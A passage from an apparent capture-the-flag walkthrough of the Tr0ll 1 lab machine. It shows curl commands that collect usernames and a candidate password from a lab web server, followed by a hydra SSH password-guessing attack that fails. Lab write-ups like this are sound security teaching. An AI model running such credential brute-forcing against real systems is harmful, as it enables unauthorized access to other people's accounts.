 Inside the **good_look** directory ther is a file with a list of words, these look like usernames.

![](/assets/images/tr0ll1/screenshot-4.png)

We download the usernames and save them to a file.

```console
root@kali:~$ curl -s http://192.168.179.182/0x0856BF/good_luck/which_one_lol.txt | awk '{print $1}' | tee users.txt 
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Inside the folder **this_folder_contains_the_password** there is a file called **Pass.txt**.

![](/assets/images/tr0ll1/screenshot-5.png)

We download the possible password.

```console
root@kali:~$ curl -s http://192.168.179.182/0x0856BF/this_folder_contains_the_password/Pass.txt | tee pass.txt     
Good_job_:)
```

We performed a wordlist attack with hydra but the password doesn't work.

```console
root@kali:~$ hydra -L users.txt -P pass.txt ssh://192.168.179.182
...
1 of 1 target completed, 0 valid password found
...
```
